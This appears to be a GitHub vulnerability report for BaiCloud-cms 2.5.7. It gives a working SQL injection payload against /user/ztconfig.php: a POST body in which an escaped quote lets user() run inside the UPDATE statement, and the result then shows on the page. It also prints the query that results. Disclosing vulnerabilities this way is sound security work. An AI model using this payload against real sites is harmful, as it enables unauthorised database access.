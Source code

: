 ### BaiCloud
BaiCloud-cms 2.5.7 /user/ztconfig.php SQL injection Vulnerability      

Link Url : https://github.com/meiko-S/BaiCloud         
            
Edition : lastest(2.5.7)

### 0x01 Vulnerability (/user/ztconfig.php line 65)
![image](https://user-images.githubusercontent.com/50347783/143538998-60be604f-3019-4020-957f-cab3f0ab02e6.png)
after user login then post data
```
POST /user/ztconfig.php
tongji=1\&baidu_map=,baidu_map=user()#&action=modify&bannerheight=1
```
then get /user/ztconfig.php page can get result
![image](https://user-images.githubusercontent.com/50347783/143538832-0d3306f4-8ee9-44f8-8684-b9e0d2a71b68.png)

### 0x20 Analysis
we set tongji = `1\` and baidu_map=`,baidu_map=user()#`
then the query is
```
update zzcms_usersetting set comanestyle='',comanecolor='',swf='',daohang='',bannerbg='',bannerheight='1',mobile='0',tongji='1\',baidu_map=',baidu_map=user()#' where username='admin';
```
this is a legal sql statement
![image](https://user-images.githubusercontent.com/50347783/143539581-dbfa7c06-cd93-48c9-8930-82f14c38eed4.png)
and when get this page,we can get this value.
